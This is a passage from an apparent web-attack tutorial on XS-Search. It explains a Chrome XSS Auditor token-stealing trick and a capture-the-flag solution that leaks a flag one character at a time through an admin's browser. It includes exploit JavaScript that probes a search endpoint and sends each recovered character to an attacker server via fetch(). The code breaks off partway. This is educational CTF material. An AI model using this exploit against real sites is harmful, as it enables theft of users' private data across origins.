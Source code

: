 Using the previous technique (with Chrome XSS Auditor) you can **steal chunks of the code returned to a user** (like tokens for example). For more information: [https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens](https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens)

Please, notice that you will steal information returned to a user and not any code from the web server.

## Custom Detection

In the **fbcft2019** the **challenge**: **secret note keeper** was resolved exploiting a XS-Search.

You could make the **administrator** (a headlessChrome) **visit any page** and there was a **CSRF** vulnerable page that was able to **search files by content**. You also **knew** that the **flag starts** by _**fb{**_ and only the admin had access to it.

It was also important to notice that when you made a **search**, the results of the seach **appeared inside** an **iframe** (if something was found). And **none iframe appeared** if **anything** was found.

So, you could make the admin visit your exploit that will be a **loop of every possible charater** inside _fb{X_ inside an iframe. And using:

```
contentWindow.frames.length != 0
```

You could **check** how **many iframes** where created **inside your iframe**, and **if an**y, then the **character** would be **correct** and you could start extracting the next one.

This is a code example of this from: [https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README](https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README)

```
<!DOCTYPE html>
<html>

<head>
    <title>fbctf secret note keeper</title>
</head>

<body></body>
<script>
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var charLen = chars.length;
var ENDPOINT = "http://challenges.fbctf.com:8082/search?query="
var x = document.createElement('iframe');

function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://challenges.fbctf.com:8082/search?query=' + leak + curChar);
    document.body.appendChild(x);
    console.log("leak = " + leak + curChar);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //Check the number of iframes inside
        if (x.contentWindow.frames.length != 0) {
        // If 1 or more, then, the character was valid
            fetch('http://myserver/leak?' + escape(leak), {
                method: "POST",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        search(leak, (charCounter + 1) % chars.length);
```